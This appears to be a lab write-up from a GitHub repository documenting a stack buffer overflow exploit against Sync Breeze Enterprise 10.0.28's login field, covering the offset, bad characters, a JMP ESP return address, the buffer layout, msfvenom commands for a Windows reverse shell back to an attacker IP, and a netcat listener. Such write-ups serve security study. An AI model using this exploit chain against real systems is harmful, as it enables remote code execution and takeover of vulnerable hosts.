






# Buffer Overflow - Sync Breeze Enterprise 10.0.28

> Stack-based buffer overflow in authentication field, with
> direct EIP overwrite and reverse shell execution.
> Controlled laboratory, for educational purposes.
## Summary

Sync Breeze Enterprise 10.0.28 is vulnerable to a stack-based buffer
overflow in the `username` field on the login page (`POST /login`).
The exploitation occurs because the application doesn't have bounds 
checking for the input field on the server-side, and because the binary 
was compiled without memory protections (ASLR, DEP and CFG), the 
execution can be reliably redirected through a `JMP ESP` instruction to 
a shellcode staged on the stack, resulting in remote code execution (`RCE`).

## Environment

| Component | Detail                                                      |
| --------- | ----------------------------------------------------------- |
| Target    | Sync Breeze Enterprise 10.0.28 (Windows 10, `192.168.1.71`) |
| Attacker  | Kali Linux (`192.168.1.113`)                                |
| Debugger  | Immunity Debugger                                           |
| Tools     | msf-pattern_create/offset, msfvenom, nc, pestudio           |

---
## 1. Protection Analysis

In this step I used the tool `pestudio` to start my analysis about whether memory protections were enabled during the application compilation stage.



The analysis revealed the absence of memory protections like ASLR, DEP and CFG, the only protection enabled is Structured-Exception Handling (`SEH`). However, since the crash resulted in direct control of EIP, I opted for a direct EIP overwrite instead.

## 2. Input Vector

Analyzing the application I found an authentication page; testing the input fields, I noticed a character limit, so looking in the source code, I determined that it was a client-side limiter.



## 3. Crash Confirmation

After removing the character limit I tried to send a large number of characters to analyze the behavior.



## 4. Offset

Using msf-pattern_create/offset I arrived at result 780.



## 5. Bad Characters

Now we have the offset and therefore control over EIP, so I started to test manually with an ASCII list for bad chars and I obtained "\x00\x0a\x0d\x25\x26\x3c\x3d".

## 6. Return Address

Now we need to search for a good return address, after my search I found the address `0x10090C83` with the instruction `JMP ESP`, but during research the first address I had chosen was rebased, as a result, I had to look for another address.



## 7. Shellcode

For the first attempt at generating a shellcode I used the following command: 

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.113 lport=443 EXITFUNC=thread
-f python -b "\x00\x0a\x0d\x25\x26\x3c\x3d" -e x86/shikata_ga_nai -a x86 -v shellcode
```

Performing some tests, I noticed there was an error. Exploring the possibilities, I remembered that the content type of the request is `application/x-www-form-urlencoded`, and in this content type the space is represented by "+" (`\x2b`), consequently breaking the shellcode.

So the correct command is:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.113 lport=443 EXITFUNC=thread
-f python -b "\x00\x0a\x0d\x25\x26\x2b\x3c\x3d" -e x86/shikata_ga_nai -a x86 -v shellcode
```

## 8. Final Exploit and Execution

Based on all the information obtained, the buffer was structured as follows:

```
"A" * 780 + "\x83\x0C\x09\x10" + \x90 * 21 + shellcode
   junk        EIP (JMP ESP)      NOP sled    payload
```

First, with the offset discovered before, we send an equal number of characters to "push" everything into the right place. After that comes the EIP, which we need to replace with the return address found before, but we need to pass this return address in little-endian format.

Because the shellcode was generated with the shikata_ga_nai encoder, which decodes itself at runtime, I included a small NOP padding before it. This space prevents the decoding process itself from corrupting the start of the payload, improving the reliability of the execution.

Before the exploit execution, because it is a reverse shell we need to set up a listener to run on the port set in the shellcode.

```
nc -nlvp 443
```


The listener receives the connection and a shell from the target machine is obtained.

## 9. Conclusion

During the production of this exploit it can be noted that the vulnerability exists from the moment an input is not correctly handled on the server-side, due to an insecure coding pratice by the developer.

**Rebase without ASLR:** the first return address I chose was rebased at runtime, even without ASLR. So the absence of ASLR does not mean every module has a fixed address.

**Bad character hidden by the encoding:** the byte `\x2b` worked in the debugger but broke the shellcode in the application, because in `x-www-form-urlencoded` the `+` (`\x2b`) is read as a space. A byte can be valid in memory and still break at the transport layer.